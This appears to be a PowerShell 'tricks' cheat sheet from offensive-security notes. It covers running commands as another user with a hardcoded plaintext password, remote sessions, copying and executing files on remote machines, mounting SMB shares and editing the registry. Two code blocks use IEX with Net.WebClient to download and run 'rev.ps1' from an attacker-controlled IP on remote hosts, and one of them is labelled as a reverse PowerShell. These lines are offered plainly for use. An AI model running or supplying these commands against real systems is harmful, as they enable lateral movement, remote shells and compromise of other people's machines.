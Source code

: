 # powershell tricks

## run powershell commands as another user

### with SecureString credential
```powershell
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\user', $pass)
hostname
invoke-command -Computer ComputerHostname -Credential $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```
change ComputerHostname.
`-ConfigurationName ...` parameter might be required to run commands for special restricted user permissions

### on remote machine with impersonated token
```powershell
$sess = New-PSSession -computer ComputerHostname
# reverse powershell
Invoke-Command -Session $sess -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://192.168.1.69/rev.ps1') }
```

#### copy and run file over session
```powershell
Copy-Item "c:\path\to\file.exe" -Destination "C:\users\public\" -ToSession $sess
Invoke-Command -Session $sess -ScriptBlock { "C:\users\public\file.exe"  }
```

## mount smb share as drive "letter"
```powershell
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Root "\\192.168.1.69\temp"
# with PSCredential
$pass = ConvertTo-SecureString 'password123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('.\use1', $pass)
New-PSDrive -Name "temp" -PSProvider "FileSystem" -Credential $cred -Root "\\192.168.1.69\temp"
```

## browse and edit registry

### set registry values
```powershell
Set-ItemProperty -Path "HKLM:\Software\ContosoCompany" -Name "NoOfEmployees" -Value 823
Get-ItemProperty -Path "HKLM:\Software\ContosoCompany"
```

### read registry values
can also change the powershell "directory" to the registry like "cd HKLM:\"
```powershell
cd HKLM:\SYSTEM\CurrentControlSet\Services\
```
